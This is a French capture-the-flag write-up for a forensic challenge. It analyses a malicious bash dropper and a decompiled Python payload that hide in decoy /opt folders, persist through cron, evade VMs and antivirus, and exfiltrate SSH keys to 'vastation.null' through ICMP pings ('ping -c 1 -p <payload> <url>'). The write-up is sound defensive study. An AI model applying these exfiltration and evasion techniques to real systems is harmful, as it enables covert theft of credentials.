




# Mission 3 :



<br>

> **Brief de mission**  
> La nouvelle vient d'être annoncée : l'entreprise Quantumcore a été compromise, vraisemblablement à cause d'un exécutable téléchargé sur un appareil issu du shadow IT, dont l'entreprise ignorait l'existence.
>
> Par chance — et grâce à de bons réflexes cyber — un administrateur système a réussi à récupérer une image de la machine virtuelle suspecte, ainsi qu'un fichier de capture réseau (PCAP) juste avant que l'attaquant ne couvre complètement ses traces. À vous d'analyser ces éléments et comprendre ce qu'il s'est réellement passé.
>
> L'entreprise vous met à disposition :
> - L'image de la VM compromise
> - Le fichier PCAP contenant une portion du trafic réseau suspect
> - Utilisateur : johndoe
> - Mot de passe : MC2BSNRbgk
>
> L'heure tourne, la pression monte, et chaque minute compte. À vous de jouer, analyste.

> **Objectifs de la mission**  
> Identifier le vecteur d'intrusion.
> Retracer les actions de l'attaquant.
> Évaluer les données compromises.

## Analyse

Nous avons accès à une archive des logs qui contient un fichier `.pcap` et une VM.

<p align="center">
  
</p>

Le fichier de capture réseau va probablement nous amener à trouver un script malveillant qui circule, et la VM des scripts malveillants qui tournent.

### Analyse du .pcap

On sait qu'un exécutable a été téléchargé sur un appareil. Wireshark a une option qui nous permet d'exporter des objets.

<p align="center">
  <br>
  
</p>

Et on voit clairement qu'un script, qui à première vue n'a rien d'alarmant, a transité sur le réseau.

Mais si on regarde rapidement son contenu, on s'aperçoit vite qu'il est malveillant.

<p align="center">
  
  
</p>

---
#### Partie 1
Essayons de comprendre ce qu'il fait. Le début sert à déclarer des variables, du style nom d'utilisateur, chemins d'accès, etc.

Ensuite, nous avons une première boucle for. Elle va juste créer 40 dossiers avec des noms random dans `/opt/`. À partir de cette ligne, on comprend qu'il ne nous veut pas du bien. C'est une façon de laisser traîner de fausses pistes, de noyer le poisson.

---
#### Partie 2
Puis, nous avons deux chaînes encodées en base64 qui décodées donnent respectivement http://vastation.null:8080/ntpdate_util.cpython-37.pyc et http://vastation.null:8080/readme.md.

Le programme récupère cet outil et ce readme pour les stocker dans :
```bash
"$__DST"/.sys
"$__DST"/.rdme
```

Étant donné que `$__DST` choisit au hasard un des répertoires random créés au début dans `/opt`, les deux fichiers seront stockés quelque part dans ces 40 dossiers.

---
#### Partie 3

Les lignes 38 à 41 permettent simplement la persistance du programme, il utilise cron pour lancer ce script à chaque démarrage.

---
#### Partie 4

Nous avons ensuite une section qui permet encore une fois de semer de fausses pistes, il crée de faux cron pour induire des analystes en erreur.

---
#### Partie 5

Il place des fichiers dans certains des dossiers afin, une nouvelle fois, de rendre l'analyse moins évidente.

---
#### Partie 6

Il exécute le programme en tâche de fond.

---
## Analyse de la VM

Maintenant, on a une idée de ce qu'il s'est passé : un employé a dû installer cet outil, qui à l'origine est légitime (`ntpdate` est un vrai logiciel), mais qui permet d'installer et d'exécuter un script très probablement malveillant.

Traquons ce virus.

<p align="center">
  
  
</p>

Comme prévu, le dossier `/opt/` est bien rempli. Mais en tant qu'analystes, les commandes Linux n'ont aucun secret pour nous et nous trouvons très facilement le fichier en question.

Il ne nous reste plus qu'à décompiler ce binaire (car un fichier `.pyc` est un fichier Python compilé).

<p align="center">
  
  
</p>

Maintenant, analysons ce fichier.

<p align="center" style="margin:0; padding:0;">
  
  
  
</p>

---
#### Partie 1

On voit assez rapidement grâce au `main` qu'il s'agit d'un fichier d'exfiltration de clés SSH. Si on regarde plus en détail, on a deux premières fonctions qui sont appelées pour vérifier une bonne configuration (au passage on notera une erreur d'indentation de la part de l'auteur).

La fonction `__chk_vm()` permet tout simplement de vérifier s'il s'agit d'une VM ou d'un vrai PC. Si le programme est exécuté sur une VM alors il se stoppe. La fonction `__chk_av()` fait le même principe mais pour les antivirus.

---
#### Partie 2

On voit qu'il cherche des fichiers bien particuliers, comme des clés SSH. Si ces fichiers existent, ils sont envoyés en paramètre à une fonction d'exfiltration. Elle prend en paramètre le chemin du fichier qu'elle veut exfiltrer et l'endroit (donc la machine de l'attaquant) où elle veut l'exfiltrer. Étant donné qu'on a à notre disposition la méthode ainsi que les clés de déchiffrement pour obtenir ce site, on peut facilement retrouver avec un [script](https://github.com/IAidenI/CTF_WriteUps/blob/master/DGSE%202025/Mission3/Scripts/url_recovery.py) qu'ils sont envoyés vers `vastation.null`.

La manière dont les données sont exfiltrées est une méthode assez méconnue, principalement car moins utilisée. Il va utiliser les paquets ICMP (donc les ping) pour exfiltrer ses données. C'est une technique assez discrète puisqu'il ne s'agit que de simples ping, un analyste peut passer à côté en pensant qu'il s'agit de requêtes normales. Mais le problème, c'est que chaque requête ne peut transporter que très peu de données (quelques octets).

Si on décortique ce qu'il se passe ici, il sépare les données du fichier à exfiltrer en sections de 15 octets qu'il envoie via `ping -c 1 -p <payload> <url>`.

---
## Récupération des données exfiltrées

C'est parfait, nous savons où et comment ces données sont exfiltrées. Il suffit de retourner dans la capture réseau pour les retrouver. Seulement, on ne peut pas juste ouvrir Wireshark et regarder les pings pour avoir nos données puisqu'elles ont été chiffrées. Mais pas de problème puisque les clés privées sont stockées dans le script. Nous avons juste à faire un [petit programme](https://github.com/IAidenI/CTF_WriteUps/blob/master/DGSE%202025/Mission3/Scripts/data_recovery.py) qui permet de filtrer pour n'avoir que les requêtes ICMP et pour chacune déchiffrer le payload.

<p align="center">
  
</p>
